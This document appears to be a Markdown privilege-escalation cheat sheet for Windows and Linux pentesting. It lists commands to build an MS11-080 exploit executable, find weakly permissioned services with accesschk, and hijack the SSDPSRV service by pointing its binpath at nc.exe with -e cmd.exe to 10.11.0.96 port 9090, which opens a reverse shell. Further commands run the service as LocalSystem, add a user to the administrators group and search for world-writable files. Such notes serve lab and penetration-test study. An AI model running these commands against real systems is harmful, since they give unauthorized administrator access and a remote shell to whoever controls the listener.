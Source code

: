 # Windows
## Build exe from Python on Windows
~~~
python pyinstaller.py --onefile ms11-080.py
~~~

## Search misconfiguration files




## Access control check
  - accesschk
    - XP
      ~~~
      accesschk-XP.exe /accepteula -uwcqv <user> * > ack.txt
       > Process
      accesschk-XP.exe /accepteula -ucqv SSDPSRV
       > User
      ~~~

  - sc
    - Info
      ~~~
      sc qc SSDPSRV
      ~~~
    - Configuration
      ~~~
      sc config <Process> binpath= "C:\Inetpub\Scripts\nc.exe -nv 10.11.0.96 9090 -e cmd.exe"
        #ex)sc config SSDPSRV binpath= "C:\Inetpub\Scripts\nc.exe -nv 10.11.0.96 9090 -e cmd.exe"
      sc config <Process> obj= ".\LocalSystem" password= ""
        #ex)sc config SSDPSRV obj= ".\LocalSystem" password= ""
      sc config <Process> start= "demand"
        #ex)sc config SSDPSRV start= "demand"
      net start <Process>
        #ex)net start SSDPSRV
          net localgroup administrators <user> /add
      ~~~

    - File search
      - Disk check
        ~~~
        echo list volume | diskpart
        ~~~

# Linux
## Search interesting priviledge files
  ~~~
  find / -perm 2 ! -type l -ls 2>/dev/null
  ~~~


